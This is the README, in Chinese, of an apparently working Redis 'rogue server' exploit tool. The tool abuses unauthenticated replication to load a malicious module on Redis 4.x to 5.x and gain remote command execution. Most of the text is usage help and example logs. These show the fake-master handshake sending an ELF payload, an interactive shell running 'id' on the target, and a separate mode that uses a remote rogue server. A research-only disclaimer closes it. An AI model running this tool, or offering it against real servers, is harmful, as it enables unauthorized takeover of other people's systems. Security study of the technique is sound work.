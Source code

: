 # Awsome Redis Rogue Server

学习研究Redis未授权时发现现有文章对Redis Rogue Server RCE技术的原理不甚详细，随对原理进行进一步研究，对当前实现`Rogue Server`的`python`利用代码和`module.c`源码进行了学习与改进.

`Redis Rogue Server`的涉及主要技术为Redis的**主从复制**以及**外部模块加载**，攻击核心思路如下：

![redis未授权RCE](redis未授权RCE.jpg)



### 红队测试特性

+ 重写外部模块内存申请，避免被测试Redis服务器崩溃。
+ 更稳定的直连Shell与反弹Shell
+ 单独`Rogue Server`模式
+ `Redis-Cli`与`Rogue Server`分离模式
+ 可写路径尝试
+ 添加标准错误重定向
+ 优化Shell解码问题
+ `so`随机名称、加载模块名称变更
+ 模块卸载、`so`文件清理，保持服务器的服务正常
+ Redis pass认证

**详看源码**



### 适用范围

Redis 4.x <= 5.x



### Usage

```bash
$ python3 redis_rogue_server.py -h
usage: python3 redis_rogue_server.py -rhost [target_ip] -lhost [rogue_ip] [Extend options]

 Redis unauthentication test tool.

optional arguments:
  -h, --help      show this help message and exit
  -rhost RHOST    Target host.
  -rport RPORT    Target port. [default: 6379]
  -lhost LHOST    Rogue redis server, which target host can reach it.
                  THIS IP MUST BE ACCESSIBLE BY TARGET!
  -lport LPORT    Rogue redis server listen port. [default: 15000]
  -passwd PASSWD  Target redis password.
  -path SO_PATH   "Evil" so path. [default: module.so]
  -t RTIMEOUT     Rogue server response timeout. [default: 3]
  -s              Separate mod.
                  Whether Redis-Cli(This ip) and rogue Server(Can be other ip) are separated
                  rogue Server port listens locally by default, use flag -s shut down local port if lport conflict.
  -v              Verbose Mode.

Example:
  redis_rogue_server.py -rhost 192.168.0.1 -lhost 192.168.0.2
  redis_rogue_server.py -rhost 192.168.0.1 -lhost 192.168.0.2 -rport 6379 -lport 15000

Only Rogue Server Mode:
  redis_rogue_server.py -v

```



### Example

```bash
$ python3 redis_rogue_server.py  -rhost 192.168.229.136 -lhost 192.168.229.150 -v
[*] Init connection...
[+] Target accessible!
[*] Exploit Step-1.
[+] RDB dir: /home/test/Desktop/redis-5.0.7
[*] Done.
[+] Accept connection from 192.168.229.136:44674
[>>]b'*1\r\n$4\r\nPING\r\n'
[<<]b'+PONG\r\n'
[>>]b'*3\r\n$8\r\nREPLCONF\r\n$14\r\nlistening-port\r\n$4\r\n6379\r\n'
[<<]b'+OK\r\n'
[>>]b'*5\r\n$8\r\nREPLCONF\r\n$4\r\ncapa\r\n$3\r\neof\r\n$4\r\ncapa\r\n$6\r\npsync2\r\n'
[<<]b'+OK\r\n'
[>>]b'*3\r\n$5\r\nPSYNC\r\n$40\r\ne46ef23509ec51bb952dec34cb84e6c08388e5eb\r\n$1\r\n1\r\n'
[<<]b'+FULLRESYNC d2b79a2fbd16c050cdf136838f67093efb76509 1\r\n$45608\r\n\x7fELF\x02\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00>\x00\x01\x00\x00\x00 *\x00\x00\x00\x00\x00\x00@\x00\x00\x00\x00...'
[*] The Rogue Server Finished Sending the Fake Master Response.
[*] Wait for redis IO and trans flow close...
[*] Exploit Step-2.
[*] Done.
[+] It may crash target redis cause transfer large data, be careful.
[?] Shell? [i]interactive,[r]reverse:i
[!] DO NOT USING THIS TOOL DO ANYTHING EVIL!
[+] =========================== Shell ============================= 
$ id
uid=1000(test) gid=1000(test) groups=1000(test),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
$ exit
[*] Plz wait for auto exit. Cleaning.... 
[!] DO NOT SHUTDOWN IMMEDIATELY!
[*] Done.
```



#### 分离模式

```
Rogue Server端: 192.168.229.150
攻击端: 192.168.229.136
```



不同于其他利用模块，将分离模式如用上图示所示。

先运行`Rogue Server`再运行攻击端`Redis-Cli`发送攻击指令，即本地将不会运行 `Rogue Server` ，而是依靠远程主机的 `Rogue Server`进行响应。



**Rogue Server端**

```bash
python3 ./redis_rogue_server.py  -v
[*] Listening on port: 15000
[+] Accept connection from 192.168.229.136:44762
[>>]b'*1\r\n$4\r\nPING\r\n'
[<<]b'+PONG\r\n'
[>>]b'*3\r\n$8\r\nREPLCONF\r\n$14\r\nlistening-port\r\n$4\r\n6379\r\n'
[<<]b'+OK\r\n'
[>>]b'*5\r\n$8\r\nREPLCONF\r\n$4\r\ncapa\r\n$3\r\neof\r\n$4\r\ncapa\r\n$6\r\npsync2\r\n'
[<<]b'+OK\r\n'
[>>]b'*3\r\n$5\r\nPSYNC\r\n$40\r\na62cf45a906d4a68422cac6f835108dbecb25f3b\r\n$1\r\n1\r\n'
[<<]b'+FULLRESYNC b79062efe2211aa8328ab4da3d501fa21b2ac54a 1\r\n$45608\r\n\x7fELF\x02\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00>\x00\x01\x00\x00\x00 *\x00\x00\x00\x00\x00\x00@\x00\x00\x00...'
[*] Wait for redis IO and trans flow close...
```



**攻击端**

```bash
python3 redis_rogue_server.py -rhost 192.168.229.136 -lhost 192.168.229.150 -s -v
[*] Separate Mode. Plz insure your Rogue Server are listening.
[*] Init connection...
[+] Target accessible!
[*] Exploit Step-1.
[+] RDB dir: /home/test/Desktop/redis-5.0.7
[*] Done.
[*] Wait 3 secs for REMOTE Rogue Server response.(Use flag -t [N] to change timeout)
[!] Make sure your remote Rogue Server is working now!
[*] Exploit Step-2.
[*] Done.
[+] It may crash target redis cause transfer large data, be careful.
[?] Shell? [i]interactive,[r]reverse:i
[!] DO NOT USING THIS TOOL DO ANYTHING EVIL!
[+] =========================== Shell =============================
$ id
uid=1000(test) gid=1000(test) groups=1000(test),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
$ exit
```





#### 模块源码重编译

修改`RedisModules/src/module.c`，然后运行编译`make`

```bash
$ vim ./RedisModules/src/module.c
$ cd RedisModules
$ make
```



### 参考：

[ https://github.com/RicterZ/RedisModules-ExecuteCommand ]( https://github.com/RicterZ/RedisModules-ExecuteCommand )



### 声明

**该项目仅作为安全学习交流之用途，请遵守当地法律法规，任何用于非法用途产生的后果将由使用者本人承担。**

**All responsibilities are at your own risk., Please use it only for research purposes.**